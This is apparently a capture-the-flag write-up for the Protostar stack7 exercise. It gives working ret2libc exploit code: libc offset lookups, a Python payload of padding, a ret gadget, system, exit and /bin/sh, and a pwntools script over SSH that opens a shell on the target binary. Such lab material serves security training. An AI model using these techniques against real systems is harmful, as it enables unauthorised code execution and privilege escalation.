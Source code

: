 ```bash
$ readelf -s /lib/libc-2.11.2.so | grep exit
  136: 0002f0c0    47 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
```

exit: 0x0002f0c0

<br/>

```bash
$ strings -tx /lib/libc-2.11.2.so | grep "/bin/sh"
  11f3bf /bin/sh
```

binsh: 0x11f3bf

<br/>

Now let's make an exploit

```python
import struct
base = 0xb7e97000
offset = "a"*80
ret = struct.pack("I",0x08048544)
system = struct.pack("I",base+0x00038fb0)
exit = struct.pack("I",base+0x0002f0c0)
binsh= struct.pack("I", base + 0x11f3bf)

print offset + ret +system+exit + binsh
```

<br/>

Running the exploit

```bash
$ (python /tmp/ex.py;cat ) | ./stack7
```

<br/>

As always the scripted version

```python
from pwn import *
import paramiko

user = 'user'
password = user
host = '<ip>'

s = ssh(user=user,password=password,host=host)

#base = 0xb7e97000
padding = b'a'*80
ret = p32(0x08048544)
system = p32(0xb7e97000+0x00038fb0)
exit = p32(0xb7e97000+0x0002f0c0)
binsh = p32(0xb7e97000+0x11f3bf)

payload = padding + ret + system + exit + binsh

p = s.run('/opt/protostar/bin/stack7')
p.sendline(payload)
p.interactive()
```
